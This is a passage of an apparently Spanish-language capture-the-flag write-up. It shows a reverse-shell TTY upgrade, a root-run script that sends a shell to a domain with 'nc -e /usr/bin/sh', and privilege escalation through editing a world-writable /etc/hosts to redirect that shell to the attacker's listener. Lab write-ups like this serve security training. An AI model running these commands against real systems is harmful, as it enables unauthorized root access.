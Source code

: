 ```bash
Script started, file is /dev/null
server@real:~/irc/Unreal3.2$ ^Z
[1]  + 3608 suspended  nc -nlvp 443
CTRL + Z
$ stty raw -echo;fg
[1]  + 3608 continued  nc -nlvp 443

server@real:~/irc/Unreal3.2$ export TERM=xterm
server@real:~/irc/Unreal3.2$ export SHELL=bash
server@real:~/irc/Unreal3.2$ stty rows 48 columns 238
server@real:~/irc/Unreal3.2$
```
Encuentro que el siguiente archivo se ejecuta cada tanto tiempo por root.
```bash
server@real:/opt$ ls -la /opt/task
-rwx---r-- 1 root root 277 May  3 08:39 /opt/task
server@real:/opt$ cat /opt/task
#!/bin/bash

domain='shelly.real.nyx'

function check(){

        timeout 1 bash -c "/usr/bin/ping -c 1 $domain" > /dev/null 2>&1
    if [ "$(echo $?)" == "0" ]; then
        /usr/bin/nohup nc -e /usr/bin/sh $domain 65000
        exit 0
    else
        exit 1
    fi
}

check
```
Analizándolo podemos discernir que el script está mandando una shell al puerto 65000 al dominio shelly.real.nyx. Sabiendo esto prosigo a averiguar los permisos del archivo /etc/hosts.
```bash
server@real:/opt$ ls -la /etc/hosts
-rw----rw- 1 root root 214 May 31 12:32 /etc/hosts
```
Puedo escribir en este, por lo que trataremos de hacer que el dominio shelly.real.nyx apunte a nuestra máquina para que así nosotros solo estemos en escucha en el puerto 65000 hasta que nos llegue una shell.
```bash
server@real:/opt$ cat /etc/hosts
127.0.0.1	localhost
1.2.3.4		real
# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
server@real:/opt$ nano /etc/hosts
server@real:/opt$ cat /etc/hosts
127.0.0.1	localhost
1.2.3.4		real
10.0.2.48  shelly.real.nyx
# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```
Ahora en escucha en nuestra máquina en el puerto 65000 esperamos y deberíamos obtener un shell.
```bash
$ nc -nlvp 65000
```